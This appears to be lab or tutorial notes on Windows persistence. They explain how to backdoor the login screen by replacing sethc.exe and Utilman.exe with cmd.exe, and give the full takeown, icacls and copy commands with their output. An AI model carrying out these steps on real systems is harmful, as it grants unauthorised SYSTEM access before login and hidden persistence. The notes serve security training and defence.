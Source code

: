 To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:
		![[Pasted image 20240911031921.png]]

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:
```shell-session
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

### Utilman
Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
		![[Pasted image 20240911032130.png]]

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again. 

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:
```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```
